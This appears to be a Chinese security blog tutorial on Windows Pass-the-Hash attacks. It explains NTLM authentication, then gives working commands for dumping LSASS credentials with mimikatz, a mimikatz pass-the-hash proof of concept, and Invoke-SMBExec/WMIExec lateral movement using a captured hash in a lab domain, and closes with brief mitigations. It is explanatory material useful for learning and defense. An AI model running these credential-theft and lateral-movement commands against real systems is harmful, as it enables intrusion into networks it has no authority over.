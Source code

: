 ```yaml
---
title: "Windows Pass-the-Hash 攻击"
date: 2020-05-07T22:33:22+08:00
categories: [Security]
tags: [Domain]
draft: false
---
```


## NTLM哈希及NTLM认证

NTLM哈希根据用户明文密码生成，其生成算法此处不表，而仅描述其应用。

NTLM认证过程一般被嵌入在上层协议中（比如SMB协议），在Windows中使用NTLM认证时，系统将计算明文密码的NTLM哈希，与预先保存的哈希做比较，相同则登录成功。登录之后Windows将NTLM哈希缓存在系统中（lsass进程），NTLM哈希在系统中将作为用户后续的凭据，在进行NTLM认证时使用。

![域环境中NTLM认证过程](1536303404744.png)

域环境中NTLM认证的流程如上图所示，主要为五个步骤：

- 客户端向服务器发送访问请求
- 服务器生成一个随机数nonce，发送给客户端
- 客户端使用NTLM哈希对nonce进行加密（即Net-NTLM哈希），发送给server
- server收到客户端加密的nonce后，将其连同客户端信息和nonce发送给DC
- DC根据客户端信息使用对应的NTLM哈希对nonce加密，比较相同则认证成功，返回结果给server

NTLM认证有v1和v2两个版本，主要为nonce长度和加密算法强度的区别：

|            | Nonce长度 | 加密算法 |
| ---------- | --------- | -------- |
| NTLM认证v1 | 8 bytes   | DES      |
| NTLM认证v2 | 16 bytes  | HMAC-MD5 |

从NTLM认证的过程可以看到，对于客户端认证来说，只需要对应用户的NTLM哈希则可以代表该用户完成认证流程，这也是pass the hash攻击的原理。

## 获取NTLM哈希

在获取本地机器管理员或system权限后，可以使用`mimikatz`来获取内存（LSASS进程）中缓存的凭据，凭据不仅包括NTLM哈希，根据不同的环境，还可能会存在缓存的明文密码。

```shell
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords
......
```

获取`debug` privilege后，输入`sekurlsa::logonpasswords`来dump出lsass进程中缓存的凭据，输出的结果根据系统版本和补丁情况有所不同：从 Windows 8.1 和 Windows Server 2012 R2 开始，LM 哈希和明文密码将不在内存中保存，此功能可以通过**kb2871997**补丁被移植到较早版本的 Windows 中。

![利用mimikatz从内存中获取凭据](image-20200508223931549.png)

上图分别为在win10与win7环境下的执行结果，可以看到在win7且未打补丁的环境下，可以抓取到LM哈希和明文密码。此外，**kb2871997**补丁对于抓取凭据的影响还有，在安装补丁后，当注销用户时系统会删除对应用户在LSASS进程中的凭据，而在该安全更新之前，只要用户在系统中登录并机器未重启的情况下，即使用户注销，凭据会一直在缓存在内存中。

（在安装补丁后，由于wDigest的特殊性，仍然可以通过更改注册表来缓存明文密码，此处不再赘述）

## NTLM哈希利用POC

在得到一个账户的凭据后，可以利用获得的NTLM哈希实施pass the hash攻击，在没有明文密码的情况下，进行横向移动。

仍然使用mimikatz工具来实现一个POC，利用`sekurlsa::pth`命令：

```shell
sekurlsa::pth /user:test1 /domain:pentest.com /ntlm:cbf698d633423db51e1968e572c3aca7
```

![利用mimikatz进行pth](image-20200508225154095.png)

上图所示为利用smb文件共享服务展示的攻击效果，利用`sekurlsa::pth`命令、使用普通域账户`test1@pentest.com`的NTLM哈希，弹出左边的cmd窗口，win-u8916fo3ap4这台机器为开启了文件共享服务、该域账户有权限访问的域内机器；右边的cmd窗口为本地机器管理员账户直接打开，权限为本地机器管理员账户，无权访问域内的SMB服务。

所以通过`test1@pentest.com`账户的NTLM哈希来进行pass the hash攻击，可以直接利用其权限访问smb服务。

## 实战利用

Pass the Hash攻击的利用工具较多，如[ranger](https://github.com/funkandwagnalls/ranger)、[impacket](https://github.com/SecureAuthCorp/impacket)、[Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash)等，在metasploit等攻击平台中也有集成此攻击。下面针对两种实战中具体的利用方式进行说明。

### SMBExec

此利用方式要求NTLM哈希对应的用户具有目标机器的管理员权限（具体来说是具有Service Control Manager的写权限），以此控制机器的本地服务。SMBExec的攻击方式与psexec的方式基本一致，利用[MS-SCMR](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-scmr/705b624a-13de-43cc-b8a2-99573da3635f)（Service Control Manager Remote Protocol，一个基于SMB的RPC协议）来创建并启动服务来执行命令，执行命令后再删除对应服务。

值得注意的是，如果不是内置administrator账户或域账户，即使是管理员用户仍然会由于UAC机制而导致无权访问。也就是说，在存在UAC的情况下，只有内置的administrator账户或被加入本地管理员组的域账户能够实施此攻击。

利用Invoke-TheHash工具（基于powershell）来执行SMBExec：

```powershell
Invoke-SMBExec -Target 192.168.232.130 -Domain pentest.com -Username test1 -Hash cbf698d633423db51e1968e572c3aca7 -command "echo 1 > C:/users/test1/a"  -verbose
```

由于命令是由服务形式启动，所以进程会以system权限启动。另外此攻击方式会在目标机器上留下明显的日志记录：

![SMBExec留下的Windows日志](image-20200509172950856.png)

### WMIExec

此种利用方式仍然需要内置管理员账户或者具有本地管理权限的域账户。WMI（Windows Management Instrumentation）提供了远程管理计算机的接口，WMIExec利用WMI的`Win32_Process::Create`方法来新建进程执行命令。

WMIExec通过DCOM协议来远程利用WMI，客户端首先连接135端口，随后远程机器会选择一个随机TCP端口监听来传输数据，所以在有目标机器防火墙开启时，会导致无法连接至新的端口而无法完成攻击。

利用Invoke-TheHash工具攻击：

```shell
PS > Invoke-WMIExec -Target 192.168.232.130 -Domain pentest.com -Username test1 -Hash cbf698d633423db51e1968e572c3aca7 -Command "calc.exe"  -verbose
详细信息: Connecting to 192.168.232.130:135
详细信息: WMI reports target hostname as DESKTOP-QEI3TKC
详细信息: [+] pentest.com\test1 accessed WMI on 192.168.232.130
详细信息: [*] Using DESKTOP-QEI3TKC for random port extraction
详细信息: [*] Connecting to 192.168.232.130:49668
详细信息: [*] Attempting command execution
[+] Command executed with process ID 8984 on 192.168.232.130
```

此种方式执行命令是以所指定的用户权限执行的，并且不会在目标机器中留下日志。

## 防御方式

简单谈一下缓解此攻击的方式（并不全面）：

- Microsoft本地管理员密码解决方案（LAPS）：随机化所有域成员本地管理员密码，密码按照较强的密码策略生成，定期修改。这使得用相同凭据横向渗透变得很困难。
- credential guard：win10引入，CG禁止内存读取，凭据存储在CG中，从lsass输入challenge等信息，CG处理并输出结果

---

参考资料：

[剖析Hash传递攻击的本质、缓解方式及部分绕过手段]([http://blog.sycsec.com/2018/10/02/What-is-Pass-the-Hash-and-the-Limitations-of-mitigation-methods/#microsoft%E6%9C%AC%E5%9C%B0%E7%AE%A1%E7%90%86%E5%91%98%E5%AF%86%E7%A0%81%E8%A7%A3%E5%86%B3%E6%96%B9%E6%A1%88laps](http://blog.sycsec.com/2018/10/02/What-is-Pass-the-Hash-and-the-Limitations-of-mitigation-methods/#microsoft本地管理员密码解决方案laps))

[Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persisten Asynchronous-And-Fileless-Backdoor](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf)